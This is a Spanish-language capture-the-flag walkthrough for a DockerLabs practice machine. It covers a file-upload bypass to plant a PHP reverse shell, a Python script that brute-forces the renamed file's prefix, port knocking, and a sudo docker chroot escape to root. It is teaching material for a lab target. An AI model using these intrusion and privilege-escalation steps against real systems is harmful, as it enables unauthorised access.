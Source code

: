 **#Maquina: DocHackLab**

**#Web: dockerlabs.es**

**#Dificultad: Medio** 🟡

-----------------------------------------------------------------------------------------------------------------------------------
**Reconocimiento** 👀

Realizamos un escaneo con Nmap para detectar puertos abiertos y encontramos el 80/http y 22/ssh

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9a:a2:73:65:c5:4f:dd:36:57:7c:53:f6:98:82:96:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLl5D/RfFNy/n10ujddXzLufQCc6uFoQzO3GTzAp1oRBoMxLyljH1pzYcx+5SVEUVCNbbIuVoI14rNqQ3cdm3II=
|   256 c5:f4:bf:93:53:a3:8b:78:0c:8a:b2:fa:30:5b:b3:1b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGO7g8+mB87DwwgFn0eDDjOUSGVTPZKaI6hkXOGBoHxp
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Chequeamos el puerto 80 el cual es una pagina de Apache por defecto, asi que tenemos que realizar fuzzing web para enumerar directorios.

![Screenshot_3](https://github.com/user-attachments/assets/2019def4-c7d8-4239-bc41-a7330c57bb3f)

```
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/FUZZ' -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 531ms]
hackademy               [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 0ms]
```

El fuzzing web nos encuentra el directorio /hackademy así que accedemos para ver que contiene y es una carga de archivos que al intentar enviar uno de prueba vemos que tiene un mensaje que solo acepta JPG, JPEG, PNG.

![Captura de pantalla 2024-11-30 135741](https://github.com/user-attachments/assets/46594c2a-7dde-4be4-b382-a655ca2c98a8)

![Captura de pantalla 2024-11-30 135812](https://github.com/user-attachments/assets/c3e36ec9-3068-4f26-aa38-6a993c612179)

-----------------------------------------------------------------------------------------------------------------------------------

**Explotación** 🔥

Generamos un payload que nos entregue un reverse shell y con Burpsuite interceptamos la petición para cambiar la extensión y que nos reciba el archivo.

![Captura de pantalla 2024-11-30 141507](https://github.com/user-attachments/assets/b5fd82fd-d140-4d42-bb90-c791690aa168)

![Captura de pantalla 2024-11-30 141729](https://github.com/user-attachments/assets/af80c264-48ef-48bd-bdfd-2e81188ebaf4)

Como podemos ver, el archivo a sido subido con éxito pero está modificado y no sabemos su ubicación. El mensaje nos deja una pista "ha sido subido y alterado xxx_tuarchivo , localizalo y actua" por lo que ahora tiene tres letras antes del nombre. Para resolver esto podemos hacer un script que nos ayude a problar diferentes combinaciones hasta encontrar la ubicación del payload.

Acá te dejo el script

```
import requests
import string
from itertools import product

# Base URL del archivo
base_url = "http://172.17.0.2/hackademy/"

# Nombre original del archivo
original_name = "payload.jpg.php"

# Generar todas las combinaciones de 3 caracteres
# Usamos letras (minúsculas y mayúsculas) y dígitos
characters = string.ascii_letters + string.digits
combinations = product(characters, repeat=3)

# Probar cada combinación
for combo in combinations:
    prefix = ''.join(combo)  # Convertir la tupla en un string
    url = f"{base_url}{prefix}_{original_name}"
    
    # Hacer la solicitud
    response = requests.get(url)
    
    # Verificar si el archivo existe (HTTP 200 OK)
    if response.status_code == 200:
        print(f"Archivo encontrado: {url}")
        break
else:
    print("No se encontró el archivo.")
```

![Captura de pantalla 2024-11-30 142908](https://github.com/user-attachments/assets/5c0e49af-ce34-409f-bb71-cff07a39cd5e)

El script encontró la ubicación del archivo y vemos que se llama klp_payload.jpg.php y la ubicación http://172.17.0.2/hackademy/klp_payload.jpg.php.

Nos ponemos a la escucha con netcat y llamamos al archivo para conectarnos.

![Captura de pantalla 2024-11-30 143336](https://github.com/user-attachments/assets/8f5d930f-8195-479b-90d9-31d9d008a0b0)

-----------------------------------------------------------------------------------------------------------------------------------

**Escalada de privilegios** 🔝

Entramos al sistema como www-data ahora toca escalar privilegios hasta convertirnos en root. Buscamos posibles usuarios en /etc/passwd vemos que existe el usuario firsthacking.

![Captura de pantalla 2024-11-30 143954](https://github.com/user-attachments/assets/a4b90cc7-acf5-4809-bf7f-e839d4a0dbe0)

Despues de una busqueda de como acceder con dicho usuario, lo que encontramos es que son el comando sudo -l podemos ejecutar comandos como firsthacking.

![Captura de pantalla 2024-11-30 144150](https://github.com/user-attachments/assets/7791eff0-57a2-4e0b-b6e9-0d3fe054b900)

Investigamos en GTFOBins

![Captura de pantalla 2024-11-30 144232](https://github.com/user-attachments/assets/ff61e315-08d7-4d61-95d6-7b539adccca0)

Una vez como el usuario firsthacking, ejecutamos nuevamente sudo -l y vemos que podemos seguir escalando privilegios pero esta vez con /usr/bin/docker. Dentro de GTFObins tenemos la información de cómo hacerlo, pero tenemos una pequeña sorpresa... Tenemos que hacer una llamada.

![Captura de pantalla 2024-11-30 152157](https://github.com/user-attachments/assets/e3543055-2da1-422f-9296-1d2cc8a46dd1)

Levantamos cada puerto antes mencionados en la nota con la herramienta knock en nuestra maquina atacante.

```
└─$ knock -v 172.17.0.2 12345 54321 24680 13579 -d 1
hitting tcp 172.17.0.2:12345
hitting tcp 172.17.0.2:54321
hitting tcp 172.17.0.2:24680
hitting tcp 172.17.0.2:13579
```

Volvemos a intentar con el comando que sacamos de GTFObins

```sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh```

![Captura de pantalla 2024-11-30 161243](https://github.com/user-attachments/assets/5a7f5400-2e93-4a9a-a936-b54099232bd3)

Somos usuario root 😁
Maquina completada 🏆
